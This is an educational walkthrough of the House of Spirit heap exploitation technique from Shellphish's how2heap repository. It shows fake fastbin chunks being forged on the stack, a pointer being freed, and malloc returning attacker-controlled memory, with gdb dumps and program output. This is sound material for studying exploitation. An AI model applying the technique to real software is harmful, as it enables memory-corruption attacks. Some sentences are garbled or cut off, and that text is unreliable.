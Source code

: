 # Shellphish how2heap House of Spirit

This is another section of the CTF team Shellphish's how2heap educational github repo. This time, we are focusing on the House of Spirit attack.

The goal of this is to get malloc to return a pointer to a that we control (it can be in the heap, stack, or anywhere that we can write to). It will require us to make two fake chunks, by writing to eight byte integers. After that we just need to overwrite a ptr to 

## Exploit Process

First we will need to call malloc once, so that it sets up it's memory.

Proceeding that we will start setting up our fake chunk. Right now it just looks like this`):

```
gdb-peda$ x/12g 0x7fffffffddd0
0x7fffffffddd0:	0x00000000000000c2	0x00007fffffffde0f
0x7fffffffdde0:	0x00007fffffffde0e	0x00007ffff7abab85
0x7fffffffddf0:	0x0000000000000001	0x0000555555554a5d
0x7fffffffde00:	0x0000000000000000	0x0000000000000000
0x7fffffffde10:	0x0000555555554a10	0x00005555555546d0
0x7fffffffde20:	0x00007fffffffdf10	0x04254386eda99100
```

This chunk of memory will end up splitting into two fake chunks. The first starts at `0x7fffffffddd0` and the second starts at `0x7fffffffde10` (by start I mean where the metadata for the fake chunk starts).

Next we will have to edit the size for our first fake chunk (will be stored at `0x7fffffffddd8`). One thing about it, the size has to be 16 bytes more than the total region, to account for the 16 bytes of chunk metadata. If we input the size to be `0x40`, that will fit perfectly since `0x7fffffffde10 - 0x7fffffffddd0 = 0x40` (this also still falls into the fastbin category which for x64 enviornments is equal to or under 128 bytes). In addition to that, another we also need to look out for the `IS_MAPPED` (second least signifcant bit, right after `previous_chunk_in_use`) and `NON_MAIN_ARENA` (third least signifcant bit, right after `IS_MAPPED`) bits are switched to 0x0 they will pass the check in free. In addition to this, the size we put will need to be equivalent to size that we malloc to get the fake pointer, after it has been rounded to the internal size (on x64 environments 0x30-0x38 will round up to 0x40)  So now our chunk looks like this:

```
gdb-peda$ x/12g 0x7fffffffddd0
0x7fffffffddd0:	0x00000000000000c2	0x0000000000000040
0x7fffffffdde0:	0x00007fffffffde0e	0x00007ffff7abab85
0x7fffffffddf0:	0x0000000000000001	0x0000555555554a5d
0x7fffffffde00:	0x0000000000000000	0x0000000000000000
0x7fffffffde10:	0x0000555555554a10	0x00005555555546d0
0x7fffffffde20:	0x00007fffffffdf10	0x04254386eda99100
```

Next we will need to write the size of the second fake chunk. This value will be stored at `1`. The value that we put here doesn't matter too much. In the section it used `0x1234`, however I got it to work with values ranging from `0x11` to `0x1200`. However we do need this value in order for this to work, and the range of values you can have which will pass all of the checks as you can see is quite large (it has to be less than `av->system_mem` which is `0x1d4c0` or 128 kb on x64 enviornments and greater than 2*SIZE_SZ which is `0x10` on 64 bit systems). With that our fake chunk looks like this:

```
gdb-peda$ x/12g 0x7fffffffddd0
0x7fffffffddd0:	0x00000000000000c2	0x0000000000000040
0x7fffffffdde0:	0x00007fffffffde0e	0x00007ffff7abab85
0x7fffffffddf0:	0x0000000000000001	0x0000555555554a5d
0x7fffffffde00:	0x0000000000000000	0x0000000000000000
0x7fffffffde10:	0x0000555555554a10	0x0000000000001234
0x7fffffffde20:	0x00007fffffffdf10	0x04254386eda99100
```

Now we can just overwrite a pointer to point to chunk `0x7fffffffdde0` (it will point to the content section of the fake chunk, which is supposed to be after the 16 bytes of chunk metadata). We can see it here that we have overwritten a pointer on the stack with that address:

```
gdb-peda$ find 0x7fffffffdde0
Searching for '0x7fffffffdde0' in: None ranges
Found 1 results, display max 1 items:
[stack] : 0x7fffffffddc8 --> 0x7fffffffdde0 --> 0x7fffffffde0e --> 0x555555554a100000 
``` 

Proceeding that, we can free the pointer which we have overwritten. GDB tells us that the argument for free is indeed the pointer to our first fake chunk:

```
Guessed arguments:
arg[0]: 0x7fffffffdde0 --> 0x7fffffffde0e --> 0x555555554a100000 
```

After the call to free, we can see that our chunk has been addres to the fastbin list (it is the address we freed minus `0x10` because of the 16 bytes of heap metadata)

```
gdb-peda$ p main_arena.fastbinsY
$1 = {0x0, 0x0, 0x7fffffffddd0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}
```
After that, the fake chunk has been freed it has been added to the fast bin list. You should just be able to allocate another chunk using `malloc` of a similar size, and you will get the chunk allocated (which we can see is what we got):

```
Now the next malloc will return the region of our fake chunk at 0x7fffffffddd8, which will be 0x7fffffffdde0!
malloc(0x30): 0x7fffffffdde0
```


## Section Running

Below you can see the actual elf for this section running:

```
This file demonstrates the house of spirit attack.
Calling malloc() once so that it sets up its memory.
We will now overwrite a pointer to point to a fake 'fastbin' region.
This region (memory of length: 80) contains two chunks. The first starts at 0x7fffffffddd8 and the second at 0x7fffffffde08.
This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.
... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. 
The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.
Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, 0x7fffffffddd8.
... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7fffffffddd8, which will be 0x7fffffffdde0!
malloc(0x30): 0x7fffffffdde0
```

